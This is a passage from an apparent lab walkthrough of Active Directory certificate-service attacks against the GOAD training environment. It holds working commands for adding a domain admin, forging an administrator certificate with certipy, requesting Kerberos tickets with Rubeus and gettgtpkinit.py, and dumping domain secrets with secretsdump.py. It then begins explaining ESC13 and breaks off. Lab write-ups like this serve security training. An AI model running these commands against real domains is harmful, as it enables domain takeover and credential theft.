 ```bash
[*] LDAP shell available

# add_user newdomainadmin
# add_user_to_group newdomainadmin "Domain admins"

# Alternative: Authenticate with PKINIT
# First request a valid certificate as template
certipy req -u 'khal.drogo@essos.local' -p horse -ca 'ESSOS-CA' -template User -target 192.168.56.23

# Reforge with template to fix CRL issues
certipy forge -ca-pfx 'ESSOS-CA.pfx' -upn administrator@essos.local -template khal.drogo.pfx


Rubeus.exe asktgt /user:administrator /certificate:administrator_forged.pfx /password:mimikatz

# Or use gettgtpkinit.py
gettgtpkinit.py -cert-pfx administrator_forged.pfx -dc-ip 192.168.56.12 "essos.local/administrator" admin_tgt.cccache

export KRB5CCNAME=/workspace/admin_tgt.cccache
secretsdump.py -k meereen.essos.local -dc-ip 192.168.56.12
```

### Post-Exploitation Techniques


## ESC13: Issuance Policy OID Group Links

ESC13 exploits the ADCS feature where certificate templates can have issuance policies with OID group links to Active Directory groups. This allows principals to gain access as members of linked groups by requesting certificates with the appropriate issuance policies.

### Technical Details

This attack abuses Microsoft's Authentication Mechanism Assurance (AMA) feature where:
- Certificate templates contain issuance policies (stored in `msPKI-Certificate-Policy` attribute)
- Issuance policies can be linked to AD groups via `msDS-OIDToGroupLink` attribute
- When authenticating with such certificates, users gain group membership permissions

### Requirements

1. **Principal has enrollment rights** on a certificate template
2. **Certificate template has an issuance policy extension**
3. **Issuance policies can be linked to AD groups via `msDS-OIDToGroupLink` attribute**
4. **No issuance requirements** the principal cannot meet
5. **EKUs enable client authentication**

### Exploitation Process

Let's check for ESC13 conditions in GOAD:
